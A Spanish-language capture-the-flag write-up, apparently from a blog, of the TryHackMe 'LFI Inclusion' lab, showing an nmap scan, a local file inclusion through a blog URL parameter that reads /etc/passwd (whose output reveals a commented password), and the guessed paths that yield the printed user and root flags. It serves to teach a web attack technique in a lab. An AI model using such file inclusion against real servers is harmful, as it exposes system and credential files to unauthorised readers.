 ```yaml
---
layout: post
title: Tryhackme - LFI inclusion
autor: S3cureroy
date: 2023-08-08
categories: [CTF, Tryhackme]
tags: [ LFI , enumeración , web , passwd ]
---
```


La entrada de la máquina LFI Inclusión de Tryhackme es corta, puesto que realmente, no se deben seguir los pasos habituales, como la intrusión y posterior escalada de privilegios.

Esta máquina sirve para desarrollar una técnica en concreto, y además, no dispone de medidas de seguridad que permitan filtrar la petición que se envía al servidor, por lo que facilita mucho el compromiso.

---

## Enumeración.

Como la mayoría de las máquinas, se comienza ejecutando una enumeración de los servicios y puertos mediante la herramienta **nmap**, obteniendo los puertos pertenecientes a SSH y HTTP.

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-27 09:31 EDT
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 50.60% done; ETC: 09:31 (0:00:01 remaining)
Stats: 0:00:09 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 09:31 (0:00:06 remaining)
Nmap scan report for 10.10.57.141
Host is up (0.052s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.23 seconds
```

### WEB.
 
Entrando mediante el protocolo HTTP se observa que hay desplegado un blog, y revisando todos los enlaces disponibles, se accede a http://10.10.143.249/article?name=lfiattack

El parámetro "lfiattack" da pistas de qué hay que modificar, y cambiándolo por la ruta relativa de **/etc/passwd**, se obtiene el contenido del fichero.  
![LFI1][LFI1] 

```
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin 
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin 
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin 
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin 
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin 
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin 
syslog:x:102:106::/home/syslog:/usr/sbin/nologin 
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin 
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin 
lxd:x:105:65534::/var/lib/lxd/:/bin/false 
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin 
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin 
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin 
pollinate:x:109:1::/var/cache/pollinate:/bin/false 
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash 
#falconfeast:rootpassword sshd:x:110:65534::/run/sshd:/usr/sbin/nologin 
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false 
```

En el listado de usuarios se observa que existe el usuario **falconfeast** con uid 1000 y que además, tiene el directorio principal en la ruta /home/falconfeast. 

Se busca la flag del usuario en dicho directorio (se presupone que el fichero se llama user.txt, teniendo suerte y obteniendo **60989655118397345799**)   

![LFI2][LFI2]

## Flag de root.

Habiendo tenido suerte, se decide buscar la flag de root, suponiendo que ésta se encuentra en el directorio principal que aparece en el listado, y que el nombre del fichero es **root.txt**, obteniendo el siguiente flag (**42964104845495153909**)  

![LFI3][LFI3]

Como se puede ver, en este caso no es necesario escalar privilegios, ya que el propio usuario que corre el servicio web tiene permisos para ver el contenido del directorio root.

Sé que en esta situación, se podría intentar obtener una clave privada SSH, probar la contraseña "rootpassword" del comentario que se encuentra en el fichero passwd, o incluso probar otros métodos de acceso a la máquina.

Como se obtienen las dos flags mediante el método para el que está concebida la máquina, no lo considero necesario.

Espero que os haya gustado, y recordad las redes sociales si queréis contactar conmigo.

Salu2!!!



[LFI1]: https://i.imgur.com/BNTwheR.png
[LFI2]: https://i.imgur.com/NkRmwtQ.png
[LFI3]: https://i.imgur.com/tpTBd3M.png